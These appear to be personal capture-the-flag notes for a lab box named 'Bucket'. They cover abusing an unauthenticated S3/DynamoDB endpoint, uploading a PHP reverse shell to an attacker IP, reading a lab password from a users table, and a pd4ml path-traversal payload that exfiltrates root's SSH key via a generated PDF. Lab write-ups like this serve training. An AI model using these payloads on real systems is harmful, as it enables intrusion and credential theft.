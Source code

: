 # Main infos


IP: 10.10.10.212
bucket.htb
s3.bucket.htb

# S3

aws configure (used some example data from https://docs.aws.amazon.com/systems-manager/latest/userguide/getting-started-cli.html and https://docs.aws.amazon.com/emr/latest/ManagementGuide/emr-plan-region.html
AWS Access Key ID: `AKIAIOSFODNN7EXAMPLE` 
AWS Secret Access Key: `wJalrXUtnFEMI/K7MDENG/bPxRfiCYEXAMPLEKEY`
Region: `us-west-2`
Export Format `json`


## list buckets
https://docs.aws.amazon.com/cli/latest/reference/s3/ls.html

aws --endpoint-url http://s3.bucket.htb/ s3 ls
aws --endpoint-url http://s3.bucket.htb/ s3 ls s3://adserver/images/
aws --endpoint-url http://s3.bucket.htb/ s3api get-object-acl --bucket adserver --key index.html

## send request without region or creds
aws --endpoint-url http://172.18.0.2:4566 s3 ls --region eu --no-sign-request


## create a bucket
aws --endpoint-url http://s3.bucket.htb/ s3 mb s3://mybucket

## copy file to bucket
aws --endpoint-url http://s3.bucket.htb/ s3 mb s3://mybucket
aws --endpoint-url http://s3.bucket.htb/ s3 cp test.txt s3://mybucket

## php reverse shell

```php
<?php shell_exec("/bin/bash -c 'bash -i >& /dev/tcp/10.10.14.169/9001 0>&1'");
echo "hello";?>
```


# Roy

## dynamodb
show tables
aws --endpoint-url http://s3.bucket.htb/ dynamodb list-tables
aws --endpoint-url http://s3.bucket.htb/ dynamodb scan --table-name users

## escalate to roy
su roy

Password: n2vM-<_K_Q:.Aa2




# way to root

Virtual Host Config
```
<VirtualHost 127.0.0.1:8000>
        <IfModule mpm_itk_module>
                AssignUserId root root
        </IfModule>
        DocumentRoot /var/www/bucket-app
</VirtualHost>
```


tunnel the app to localhost

``ssh roy@bucket.htb -L 8000:localhost:8000``

https://docs.aws.amazon.com/amazondynamodb/latest/developerguide/GettingStarted.PHP.04.html

echo search criteria 

```php
<?php
$test = array('TableName' => 'alerts','FilterExpression' => "title = :title",
                        'ExpressionAttributeValues' => array(":title"=>array("S"=>"Ransomware")));

echo json_encode($test);

?>
```

output

```json
{
   "TableName":"alerts",
   "FilterExpression":"title = :title",
   "ExpressionAttributeValues":{
      ":title":{
         "S":"Ransomware"
      }
   }
}
```

## dynamo db

### create a table

``aws --endpoint-url http://s3.bucket.htb/ dynamodb create-table --table-name alerts \
--attribute-definitions \
AttributeName=title,AttributeType=S \
AttributeName=data,AttributeType=S \
--key-schema \
AttributeName=title,KeyType=HASH \
AttributeName=data,KeyType=RANGE \
--provisioned-throughput \
ReadCapacityUnits=10,WriteCapacityUnits=5``

### put item
``aws --endpoint-url http://s3.bucket.htb/ dynamodb put-item --table-name alerts --item file://item.json``

### item payload
``{
        "title": {"S": "Ransomware"},
        "data": {"S": "Payload"}
}``


### check if found
``aws --endpoint-url http://s3.bucket.htb/ dynamodb scan --table-name alerts --filter-expression "title = :title" --expression-attribute-values file://filter.json``


### final payload

``{
        "title": {"S": "Ransomware"},
        "data": {"S": "<pd4ml:attachment description=\"test\" src=\"../../../../../../../root/.ssh/id_rsa\"></pd4ml:attachment>"}
}``


![[Pasted image 20210225232055.png]]

### send web request

```plaintext
POST / HTTP/1.1
Host: localhost:8000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 17

action=get_alerts
```

download result.pdf and get the root rsa key